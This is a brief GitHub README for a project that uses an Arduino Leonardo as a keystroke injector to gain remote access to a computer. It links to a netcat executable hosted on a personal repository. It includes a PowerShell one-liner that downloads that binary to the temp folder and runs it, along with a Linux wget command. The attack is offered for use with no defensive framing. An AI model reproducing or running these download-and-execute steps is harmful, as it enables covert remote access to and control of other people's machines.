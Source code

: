 <p align="center"><img src="Logo-small.png" alt="Mark Text" ></p>
<h1 align="center">Remote access using Arduino</h1>
<br>


##### Why we use Arduino Leonard ?

Because we need to access on keyboard so it depends on Arduino leonard. Also this project is very simple. You can design another creation algorithm

<!-- Downloads total -->

[NETCAT](https://github.com/s0l0n3t/netcat1221/raw/master/nc.exe)

```c#
For windows powershell: (new-object System.Net.WebClient).DownloadFile('netcat github url','%TEMP%\nc1221.exe'); Start-Process "%TEMP%\nc1221.exe"
linux: wget github.com/s0l0n3t/netcat1221/blob/master/nc.exe?raw=true
```
